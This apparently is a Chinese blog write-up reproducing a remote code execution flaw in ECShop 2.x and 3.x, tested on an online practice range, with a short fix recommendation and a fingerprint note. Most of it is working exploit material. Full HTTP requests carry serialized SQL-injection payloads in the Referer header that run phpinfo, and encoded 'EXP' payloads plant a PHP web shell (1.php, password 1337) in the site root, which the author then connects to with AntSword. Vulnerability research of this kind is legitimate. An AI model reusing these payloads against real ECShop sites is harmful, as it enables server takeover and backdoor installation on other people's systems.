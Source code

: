 ```yaml
---
layout:     post
title:      ECShop全版本远程代码执行漏洞
subtitle:   ECShop全版本远程代码执行漏洞
date:       2019-09-25
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞复现
---
```

## 前言
最近在给公司写指纹规则、漏洞检测和利用规则，因此漏洞复现的文章更新会比较频繁。
## 0x00 漏洞介绍
* 漏洞名称：ECShop 全版本 远程代码执行漏洞
* CVE编号：N/A
* 发布时间：2018-09-1
* 漏洞说明：该漏洞可直接导致网站服务器沦陷，黑客可通过WEB攻击直接获得服务器权限，利用简单且危害较大。
* 影响范围：2.x、3.x全版本
* 修复建议：修改include/lib_insert.php文件中相关漏洞的代码，将$arr[id]和$arr[num]强制将数据转换成整型

## 0x01 环境搭建

这边我使用了[在线靶场](https://www.vulnspy.com/cn-ecshop-2.7.x-rce-exploit/ecshop_%3C=_2.7.x_%E5%85%A8%E7%B3%BB%E5%88%97%E7%89%88%E6%9C%AC%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E9%AB%98%E5%8D%B1%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/)：

![图片](../../../../img/ecshop_rce_1.png)

### 2.x Poc
请求user.php，对Referer字段进行替换或者增加，PoC是执行phpinfo()的：
```
POST /user.php HTTP/1.1
Host: 6f20dc3e7e2f04b19ce2d861e7fd7cc0.n2.vsgo.cloud:18570
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:110:"*/ union select 1,0x27202f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10-- -";s:2:"id";s:4:"' /*";}554fcae493e564ee0dc75bdf2ebf94ca

```
从下图可以看到成功执行了phpinfo：
![图片](../../../../img/ecshop_rce_2.png)


### 2.x EXP
下面的Referer是写入一句话木马的，会在网站根目录生成1.php，密码：1337。如果想要改的话，可以通过实验靶场的paper中的php代码生成一下自定义的后门和密码：
```
POST /user.php HTTP/1.1
Host: deb51ea82b23814b0aa6b5bc05268bfb.n2.vsgo.cloud:16741
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: ECS_ID=99a65b781f6f0322d02e278e788c798dbe35f4fc; ECS[visit_times]=1
Content-Type: application/x-www-form-urlencoded
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";}
```
从下图看虽然好像有报错，但是还是成功写入了一句话木马的：
![图片](../../../../img/ecshop_rce_3.png)

我们使用中国蚁剑去连接是没有任何问题的：
![图片](../../../../img/ecshop_rce_4.png)

### 3.x PoC
既然是全版本通杀，那么下面就来看一下3.x的PoC，老样子还是执行phpinfo的：
```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
```

### 3.x EXP
3.x的EXP，也是老样子，会在网站根目录生成1.php，密码：1337。
```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:289:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
```

## 0x02 指纹
我发现Cookie中存在一个非常关键的字段ECS_ID，暂且把这个特征当作Web指纹。
## 0x03 总结
发现自己对php序列化和反序列化知识了解太少，还是得在周末好好学习一下php反序列化的知识点，来加深对PHP序列号与反序列的理解。
